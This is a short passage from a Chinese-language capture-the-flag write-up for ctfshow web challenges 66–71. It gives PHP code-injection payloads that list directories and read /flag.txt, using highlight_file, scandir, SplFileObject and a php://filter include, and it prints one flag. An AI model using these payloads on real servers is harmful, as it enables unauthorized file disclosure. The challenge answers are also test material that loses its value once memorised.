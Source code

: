 ![web66_scan](./image/web66_scan.png)

文件读取`c=highlight_file("/flag.txt");`

flag：ctfshow{7df646c0-7616-4aa3-aca4-f98cab246fab}

## Web67

与前一题一样

## Web68

payload：

```
c=$a=scandir("/");foreach ($a as $value) {echo $value . "\n";}
c=var_dump((new SplFileObject("/flag.txt"))->fpassthru());
或者用文件包含+伪协议的方式读取
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag.txt
```

## Web69

与上一题一样

## Web70

与上一题一样

## Web71


[ERROR]: could not find driver